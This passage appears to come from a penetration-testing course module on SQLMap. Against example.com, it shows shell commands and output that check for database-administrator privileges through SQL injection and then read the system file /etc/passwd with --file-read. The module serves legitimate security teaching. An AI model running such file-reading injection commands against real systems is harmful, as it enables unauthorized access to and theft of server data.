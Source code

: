 ```shell-session
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved
```

To test OS exploitation, let's try an exercise in which we do have DBA privileges, as seen in the questions at the end of this section:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --is-dba

 ___
 __H__
 ___ ___["]_____ ___ ___ {1.4.11#stable}
|_ -| . ['] | .'| . |
|___|_ ["]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org


[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/
```

We see that this time we get`current user is DBA: True`, meaning that we may have the privilege to read local files.

---

## Reading Local Files

Instead of manually injecting the above line through SQLi, SQLMap makes it relatively easy to read local files with the`--file-read` option:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

 ___
 __H__
 ___ ___[)]_____ ___ ___ {1.4.11#stable}
|_ -| . [)] | .'| . |
|___|_ [)]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org


[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
```